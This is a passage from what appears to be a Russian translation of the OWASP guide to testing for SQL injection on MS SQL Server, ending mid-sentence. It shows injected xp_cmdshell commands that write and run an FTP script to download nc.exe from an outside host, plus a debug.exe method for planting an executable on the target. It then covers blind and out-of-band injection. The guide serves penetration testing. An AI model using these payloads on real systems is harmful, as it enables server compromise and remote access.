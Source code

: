 ```sql
exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
```

На этом этапе `nc.exe` будет загружен и доступен.

Если брандмауэр не разрешает FTP, у нас есть обходной путь, который использует отладчик Windows, `debug.exe`, который устанавливается по умолчанию на всех компьютерах Windows. `Debug.exe` можно выполнить скриптом и создать исполняемый файл, выполнив соответствующий файл скрипта. Нам нужно преобразовать исполняемый файл в сценарий отладки (который представляет собой 100% файл ASCII), загрузить его построчно и, наконец, вызвать на нем `debug.exe`. Существует несколько инструментов, которые создают такие отладочные файлы (например,.: `makescr.exe` от Ollie Whitehouse и `dbgtool.exe` от `toolcrypt.org`). Поэтому запросы для введения будут следующими:

```sql
exec master..xp_cmdshell 'echo [debug script line #1 of n] > debugscript.txt';--
exec master..xp_cmdshell 'echo [debug script line #2 of n] >> debugscript.txt';--
....
exec master..xp_cmdshell 'echo [debug script line #n of n] >> debugscript.txt';--
exec master..xp_cmdshell 'debug.exe < debugscript.txt';--
```

На данный момент наш исполняемый файл доступен на целевом компьютере и готов к исполнению. Существуют инструменты, которые автоматизируют этот процесс, в частности `Bobcat`, который работает в Windows, и `Sqlninja`, который работает в Unix (см. Инструменты в нижней части этой страницы).

### Получить информацию, когда она не отображается (вне группы)

Не все теряется, когда веб-приложение не возвращает никакой информации, такой как описательные сообщения об ошибках (см. [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)). Например, может случиться так, что у вас есть доступ к исходному коду (например,.потому что веб-приложение основано на программном обеспечении с открытым исходным кодом). Затем тестер пера может использовать все уязвимости SQL-инъекций, обнаруженные в автономном режиме в веб-приложении. Хотя IPS может остановить некоторые из этих атак, лучшим способом будет действовать следующим образом: разработать и протестировать атаки на испытательном стенде, созданном для этой цели, а затем выполнить эти атаки на тестируемое веб-приложение.

Другие варианты внеполосных атак описаны в [Sample 4 above](#Example-4:-Yet-Another-(Useful)-GET-Example).

### Слепые атаки SQL-инъекций

#### Испытание и ошибка

В качестве альтернативы можно играть счастливчиком. То есть злоумышленник может предположить, что в веб-приложении есть скрытая или внеполосная уязвимость SQL-инъекции. Затем он выберет вектор атаки (например,., веб-запись), [use fuzz vectors](../../6-Appendix/C-Fuzz_Vectors.md) против этого канала и смотреть ответ. Например, если веб-приложение ищет книгу с помощью запроса

